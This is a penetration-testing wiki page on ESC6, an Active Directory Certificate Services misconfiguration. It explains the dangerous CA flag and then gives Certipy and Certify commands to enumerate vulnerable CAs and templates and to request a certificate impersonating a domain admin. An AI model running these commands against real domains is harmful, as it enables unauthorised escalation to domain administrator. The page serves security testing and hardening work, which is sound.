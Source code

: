 # CA configuration

## Theory

In [their research papers](https://posts.specterops.io/certified-pre-owned-d95910965cd2), [Will Schroeder](https://twitter.com/harmj0y) and [Lee Christensen](https://twitter.com/tifkin\_) found a domain escalation vector based on a dangerous CA setting (i.e. the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag). The escalation vector was dubbed [ESC6](https://posts.specterops.io/certified-pre-owned-d95910965cd2#2a56).

When the flag is set on the CA, templates configured for authentication (i.e. EKUs like Client Authentication, PKINIT Client Authentication, Smart Card Logon, Any Purpose (`OID 2.5.29.37.0`), or no EKU (`SubCA`)) and allowing low-priv users to enroll can be abused to authenticate as any other user/machine/admin.

{% hint style="success" %}
The default **User** template checks all the template requirements stated above.&#x20;

If the CA is configured with the  `EDITF_ATTRIBUTESUBJECTALTNAME2` flag (admins tend to enable that flag without knowing the security implications), and the **User** template is enabled (which is very often), any user can escalate to domain admin.
{% endhint %}

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, [Certipy](https://github.com/ly4k/Certipy) (Python) can be used to enumerate info about the CAs, including the "User Specified SAN" flag state.

```python
certipy 'domain.local'/'user':'password'@'domaincontroller' find | grep "User Specified SAN"
```

{% hint style="info" %}
By default, Certipy uses LDAPS, which is not always supported by the domain controllers. The `-scheme` flag can be used to set whether to use LDAP or LDAPS.
{% endhint %}

The same "find" command can be used to enumerate information regarding the certificate templates (EKUs allowing for authentication, allowing low-priv users to enroll, etc.).

```bash
certipy 'domain.local'/'user':'password'@'domaincontroller' find
```

Once the right template is found (i.e. the default User template), a request shall be made to obtain a certificate, with another high-priv user set as SAN (`subjectAltName`).

```bash
certipy 'domain.local'/'user':'password'@'ca_server' req -ca 'ca_name' -template 'certificate template' -alt 'domain admin'
```

The certificate can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate.
{% endtab %}

{% tab title="Windows" %}
From Windows systems, the [Certify](https://github.com/GhostPack/Certify) (C#) tool can be used to enumerate info about the CAs, including the "UserSpecifiedSAN" flag state.

```batch
Certify.exe cas
```

If the flag is enabled on a CA, certify can then be used to find all enabled templates configured with EKUs allowing for authentication, and allowing low-priv users to enroll.

```batch
Certify.exe /enrolleeSuppliesSubject
Certify.exe /clientauth
```

Once the right template is found (i.e. the default **User** template), a request shall be made to obtain a certificate, with another high-priv user set as SAN (`subjectAltName`).

```batch
Certify.exe request /ca:'domain\ca' /template:"Certificate template" /altname:"admin"
```

The certificate can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate.
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://posts.specterops.io/certified-pre-owned-d95910965cd2" %}

{% embed url="https://www.keyfactor.com/blog/hidden-dangers-certificate-subject-alternative-names-sans" %}
